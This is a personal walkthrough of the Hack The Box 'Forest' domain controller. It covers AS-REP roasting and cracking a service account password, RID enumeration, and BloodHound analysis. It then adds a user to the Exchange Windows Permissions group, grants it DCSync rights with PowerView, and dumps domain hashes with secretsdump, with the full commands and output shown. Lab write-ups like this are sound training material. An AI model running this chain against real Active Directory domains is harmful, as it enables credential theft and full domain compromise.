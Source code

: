 # Forest

## nmap scan

```text
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-07-29 10:35:19Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
```

seems to be a domain controller

and we got a domain name `htb.local` from the nmap scan

lets try `smbclient -L \\\\10.10.10.161\\` =&gt; so we have nothing here, cant do rpcclient as well

sometimes, this works :P,

AS-REP roasting

```text
GetNPUsers.py -dc-ip 10.10.10.161 htb.local/
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-07-29 10:39:57.352002  2021-07-29 05:45:57.315643  0x410200
```

so if we append `-request` to the above command at the end, we will get a krb asrep token, which we can crack using john

```text
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:10 DONE (2021-07-29 10:36) 0.09442g/s 385813p/s 385813c/s 385813C/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

now that we got some creds, we can run some commmands, lets start ny putting these into files, users and pass

so, first thing we should do it run a lookupsids.py \(from impacket\) - this does a user RID bruteforce, basically loops through the User IDs in windows and finds out the user names from that

```text
sebastien
lucinda
svc-alfresco
Service
Privileged
andy
mark
santi
```

so there are some other usernames as well in there, but those seem obselete, so I've a copy of them in /tmp/t, just in case

lets check if we can roast any of them, before that lets check if we can do evil-winrm - yep, so we got user so fast :P

kerberoasting doesn't seem to work, giving weird errors, lets move on...

anyways, since we are on the box, I'm going to run sharphound to give us some more data,

lets copy the SharpHound.exe from our local machine to the target machine

```text
on local machine,
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

on windows target,
net use x: \\10.10.14.77\kalishare /user:guest guest
cd x:
.\SharpHound.exe -c all
```

now that we have the zip file, lets have a look at bloodhound

we find that, our guy is a part of the `Account Operators` group, which means we can add users and stuff

so, looking at BloodHound, we find that the `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL` has the permission to `Write-DACL` on the domain, which means we add the ACL on the domain that a specific user will be able to do a DCSync on the domain

so, from the permission that we have above to add users, lets create and add a user to the `EXCHANGE WINDOWS PERMISSIONS` group and additionally `remote management users` local group ,we are also adding him to the domain with the /domain so that he'll be able to to secretsdump once he is in the correct groups,

we are adding him in the remote users group so that we'll be able to evil-winrm as that user once we create him

```text
net user foo1 P@$$W0RD /add /domain
net localgroup "remote management users" foo1 /add
net group "EXCHANGE WINDOWS PERMISSIONS" foo1 /add
```

even I dont know, how we can check first that if we'll be able to add users and add them to specific groups, so we have to just try the attacks based on how the domain looks like

now, we can winrm as the foo1 user, and once we do that, since we are the member of `EXCHANGE WINDOWS PERMISSIONS` group, we'll be able to modify the ACL on the domain to allow us to do a DCSync \(atleast that it what I understand\)

we can do this in two ways which I've explored, and both of them require PowerView.ps1, so lets get powerview on our machine, and since we are in the evil-winrm session, we can just run `upload PowerView.ps1`, and it will find a file in our current working directory \(where we winrm'ed from\), and uploads it to the windows machine

so, once we have PowerView.ps1 on remote, we can just source it diretly as we are already in winrm powershell session

`. .\PowerView.ps1`

now that we've sourced PowerView.ps1,

`add-objectacl -principalidentity foo1 -rights dcsync`

so as we are already logged in as foo1 now, we dont need the credential variable, but if we're not logged in separately as this user, we have to specify the credential with

```text
$pass = convertto-securestring 'P@$$word' -asplain -force
$cred = new-object system.management.automation.pscredential('htb.local\foo1', $pass)
add-objectacl -principalidentity foo1 -credential $cred -rights dcsync
```

other way is \(which i've bashed around a lot :\)\)

`Add-DomainObjectAcl -credential $cred -principalidentity foo1 -TargetIdentity "DC=htb,DC=local" -Rights DCSync`

so, one of these methods will give you \(the user foo1\) the right to do a DCSync

lets do a secretsdump.py since we have the rights now

```text
secretsdump.py -dc-ip 10.10.10.161 htb.local/foo1@FOREST                                                                                                                                                                                 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation                                                                                                                                                                                     

Password:                                                                                                                                                                                                                                    
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                                                                                                                           
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                                                                
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                                                                                                         
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:aad3b435b51404eeaad3b435b51404ee:::                                                                                                                                             
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                                                                               
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::                                                                                                                                                              
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

there we go, now we should have all the hashes \(replaced the admin hash with null one\)

now, we can do another evil-winrm to get into the box as admin

